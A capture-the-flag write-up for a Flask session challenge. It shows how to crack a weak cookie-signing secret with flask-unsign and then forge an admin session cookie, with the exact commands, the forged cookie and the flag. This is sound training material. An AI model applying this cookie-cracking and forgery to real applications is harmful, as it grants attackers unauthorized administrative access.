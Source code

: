 ```yaml
---
layout: default
title: Flask-Unsecure-session
---
```


We can see that once we entered, we get this cookie:
`session=eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.aId1rA.CAmRYTT5fWlgqgaALm32P2zttm0;`, which is a flask signed cookie.
Let's try and crack it using [flask unsign](https://github.com/Paradoxis/Flask-Unsign).

We'll run this command: `flask-unsign --unsign --server  http://challenge01.root-me.org:59084/`
After 1 second we crack the secert, which is `s3cr3t`
![crack secret](./images/Flask-Unsecure-session_crack_secret.png)

Okay, let's sign our malformed cookie with `s3cr3t`.

As you can see, the cookie is like this: `{"admin":"false","username":"guest"}` and then sign, so our new cookie will be: `{"admin":"true","username":"guest"}`
![cookie](./images/Flask-Unsecure-session_cookie.png)

we'll run this command: 
```
agonen@PC4:~$ flask-unsign --sign --cookie '{"admin":"true","username":"guest"}' --secret 's3cr3t'
eyJhZG1pbiI6InRydWUiLCJ1c2VybmFtZSI6Imd1ZXN0In0.aId3Dg.lzbqnzAu3e3flRZ2CM-euADCajE
```

Okay, so let's give this cookie: `eyJhZG1pbiI6InRydWUiLCJ1c2VybmFtZSI6Imd1ZXN0In0.aId3Dg.lzbqnzAu3e3flRZ2CM-euADCajE`

![FINAL img](./images/Flask-Unsecure-session_FINAL.png)

**Flag:** ***`Fl4sK_mi5c0nfigur4ti0n`***
